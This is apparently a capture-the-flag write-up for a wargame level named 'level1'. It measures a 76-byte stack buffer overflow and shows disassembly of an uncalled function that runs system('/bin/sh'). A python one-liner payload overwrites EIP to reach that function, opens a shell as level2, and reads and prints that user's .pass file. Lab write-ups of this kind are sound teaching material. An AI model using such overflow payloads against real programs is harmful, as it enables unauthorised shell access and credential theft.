 For this one, we use our first bufferoverflow!
First, we try to make the executable segfault :
```bash
(python -c "print 'A' * 76" ; cat) | ./level1
Illegal instruction (core dumped)
```

At this point, we know the buffer size which is equal to `76`. Now we try to decompile with `objdump -d ./level1` :
```nasm
08048444 <run>:
 8048444:	55                   	push   %ebp
 8048445:	89 e5                	mov    %esp,%ebp
 8048447:	83 ec 18             	sub    $0x18,%esp
 804844a:	a1 c0 97 04 08       	mov    0x80497c0,%eax
 804844f:	89 c2                	mov    %eax,%edx
 8048451:	b8 70 85 04 08       	mov    $0x8048570,%eax
 8048456:	89 54 24 0c          	mov    %edx,0xc(%esp)
 804845a:	c7 44 24 08 13 00 00 	movl   $0x13,0x8(%esp)
 8048461:	00 
 8048462:	c7 44 24 04 01 00 00 	movl   $0x1,0x4(%esp)
 8048469:	00 
 804846a:	89 04 24             	mov    %eax,(%esp)
 804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt>
 8048472:	c7 04 24 84 85 04 08 	movl   $0x8048584,(%esp)
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave  
 804847f:	c3                   	ret 
```

We see here a function which is not called by the `main()` but execute a `system('/bin/sh')`. The idea is to place the `0x8048444` run's address in the bufferoverflow for overlap `EIP` :
```bash
(python -c "print 'A' * 76 + '\x44\x84\x04\x08'" ; cat) | ./level1
Good... Wait what?
whoami
level2
cd .. && cat level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```